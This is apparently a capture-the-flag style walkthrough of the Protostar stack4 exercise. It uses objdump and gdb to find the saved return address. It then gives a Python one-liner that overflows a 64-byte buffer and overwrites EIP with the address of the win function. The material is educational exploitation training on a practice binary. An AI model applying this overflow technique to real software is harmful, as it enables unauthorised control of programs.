 <h2>Goal</h2>

The objective here is again to call the win function, but by overwriting `$EIP` instead of a variable that is used to call a function.

```
objdump -d stack4 | grep win
080483f4 <win>:
```

This is where gdb is going to be required, the previous could be determined by someone experienced without using gdb.

Lets go inside gdb and start examining `gdb -q stack4`


To do this exercise (not just by guessing) will require to learn the `LEAVE` and `RET` instructions.  A very very brief refresher, but by no means a detailed explanation.  `LEAVE` is used to release the stack frame by copying `$EBP` into `$ESP`.  `RET` is then used to go to a return address on the stack, which then becomes `$EIP`. 

What does this mean?

It means we need to find what the value of `$EIP` is after the `RET` instruction, then go back and break at `RET` and find that value on the stack. That value will be the target address to overwrite.

To find out the values of `LEAVE` and `RET`
`(gdb)disas main`

The last few lines will have the instructions `LEAVE` and `RET`. Set a breakpoint for the `RET` line. Should look something like:
`(gdb)break *main+23`

We have created a breakpoint at the  `RET` instruction, now define a hook-stop so that on every break point the hook-stop prints out the values I requested. In this case I used:

```
(gdb)define hook-stop
>x/1i $eip
>x/8wx $esp
>end
```
This will print out the current `$EIP` value and top eight values of the stack.  The break will pause execution at the line `gets(buffer);`

Create exploit payload using python.

This payload is the size of the buffer, we do not want to overwrite the value of `$EIP` just yet.
`python -c 'print "A"*64 > /tmp/exp`

We can use the file as input for the executable in gdb.
`(gdb) run < /tmp/exp`

Once the breakpoint is hit you can view the value of `$EIP` and top eight `$ESP` printed out thanks to the hook stop.

In gdb send a `s` to tell it to single step, this will move to the next instruction and pause again.

Issues the command `i r`, this will show the value of the registers. Look for the `$EIP` value. For me it was: `0xb7eadc76`

Now, re-issues the run command.  Once the breakpoint is hit, do not continue.  `0xb7eadc76` should show in the top 8 values of the stack as printed by the hook-stop. If it is not you can use:
`x/80x $esp`, this will print 80 values of the stack.  You should be able to find the value now.

Here is what I got:

```							
0xbffffca0:	0x000000 0xbffffd00 0xb7eadc76
```
`ebp` = `0xbffffd00`
Saved `eip` that return loads = `0xb7eadc76`

The goal is to overwrite that value with the win function address.  To determine how much padding is between the end of our variable `buffer` found the number of bytes between the end of the `0x414141`'s and the byte before $EIP starts, b7 of the saved `$EIP`. We will need to add that many more garbage bytes, then our memory address `\xf4\x83\x04\x08`.  I had to add 12 more garbage bytes (A's) in then my address to get this to work.

<h2>Solution</h2>

`python -c 'print "A"*76+"\xf4\x83\x04\x08"' | ./stack4`

